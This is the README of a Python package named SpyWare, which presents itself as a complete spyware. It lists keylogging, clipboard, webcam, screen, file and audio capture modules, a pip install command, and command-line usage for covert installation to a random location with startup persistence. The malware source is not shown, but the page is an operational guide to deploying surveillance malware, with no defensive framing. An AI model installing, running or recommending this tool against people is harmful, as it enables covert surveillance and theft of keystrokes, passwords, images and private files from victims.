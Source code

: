 ![SpyWare logo](https://mauricelambert.github.io/info/python/security/SpyWare_small.png "SpyWare logo")

# SpyWare

## Description

This package implements a complete spyware.

Features:

 - KeyLogger
 - ClipboardLogger
 - Domains/IP logger
 - Webcam spy
 - Screen spy
 - Files logger
 - Recorder

## Requirements

This package require:

 - python3
 - python3 Standard Library
 - pyautogui
 - opencv-python
 - pillow
 - pyperclip
 - pynput
 - pyaudio

## Installation

```bash
pip install SpyWare
```

## Usages

### Command line

```bash
SpyWare                             # Run all modules
SpyWare runonly -s                  # Run only screen module
SpyWare runonly --screen --key      # Run only screen module and keylogger
SpyWare runonly --key my.conf       # Run only module key with custom configuration file
SpyWare --install                   # Install spyware in random destination, enable it and run all modules
SpyWare --enable                    # Enable the SpyWare (start on reboot)
SpyWare --env "keySpy.conf=my.conf" # Add an environment variable (this defined the name of the custom configuration file for the keylogger)
SpyWare donotrun --domains --webcam # Run all modules except domains and webcam

# Following arguments are executed on python exit
# To stop the spyware you should raise a KeyboardInterrupt (Ctrl-C in the terminal)
# Is not working on OS shutdown or process kill
SpyWare --remove                    # Remove all files generated by the SpyWare and the SpyWare (the executable file only)
SpyWare --tar                       # Add data generated by the SpyWare in a .tar archive
SpyWare --tar "gz"                  # Add data generated by the SpyWare in a .tar.gz archive (compressed)
```
